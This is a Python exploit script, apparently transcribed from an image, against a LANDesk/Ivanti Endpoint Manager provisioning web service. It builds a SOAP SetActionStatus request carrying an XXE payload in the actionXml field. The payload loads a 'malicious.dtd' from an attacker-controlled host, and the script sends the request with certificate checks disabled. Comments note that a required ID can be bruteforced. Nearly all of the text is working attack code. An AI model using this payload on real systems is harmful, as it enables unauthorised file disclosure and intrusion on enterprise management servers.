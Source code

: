 ```python
# SOAP Request for invoking SetActionStatus, a valid historyEntryIDN is required for certain checks to be 
# fulfilled but I believe it can be bruteforced to work. Additionally, the actionXml content are being passed to the
# ImportXml function which was found to be vulnerable to XXE as XmlUrlXmlResolver wasn't set to null explicitly.

def send_soap_request(target_url, local_ip):
  historyEntryIDN = getTasksXml(target_url)
  log("Retrieved historyEntryIDN {}".format(historyEntryIDN), "success")
  log("Crafting SOAP Request to invole SetActionStatus", "log")
  soap_payload = '''<?xml version="1.0" encoding="utf-8"?>
  <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
      <SetActionStatus xmlns="http://tempuri.org/">
        <historyTaskIDN>100</historyTaskIDN>
        <historyEntryIDN>{}</historyEntryIDN>
        <nextHistoryEntryIDN>0</nextHistoryEntryIDN>
        <actionState>NEED_REBOOT</actionState>
        <internalRetval>1</internalRetval>
        <externalRetval>1</externalRetval>
        <strCapturedText>string</strCapturedText>
        <Variables>
          <UserVariable>
            <Name>string</Name>
            <Value>string</Value>
            <VariableOperation>add</VariableOperation>
          </UserVariable>
          <UserVariable>
            <Name>string</Name>
            <Value>string</Value>
            <VariableOperation>add</VariableOperation>
          </UserVariable>
        </Variables>
        <actionXml><![CDATA[
  <!DOCTYPE a [
  <!ENTITY % asd SYSTEM "http://{}/malicious.dtd">
  %asd;
  %c; 
  ]>
  <a></a>
  ]]></actionXml>
      </SetActionStatus>
    </soap:Body>
  </soap:Envelope>'''.format(historyEntryIDN, local_ip)

  # Define the headers
  headers = {
      "Content-Type": "text/xml; charset=utf-8",
      "Soapaction": '"http://tempuri.org/SetActionStatus"'
  }

  # The target URL
  log("Sending Request.....", "log")
  url = "{}/LANDesk/ManagementSuite/Core/ProvisioningWebService/WebService.asmx".format(target_url)

  # Send the POST request
  try:
    response = requests.post(url, data=soap_payload, headers=headers, verify=False)
  # Print the response from the server
    log("Request Successfully Sent!", "success")
    print(f"Response Status Code: {response.status_code}")
```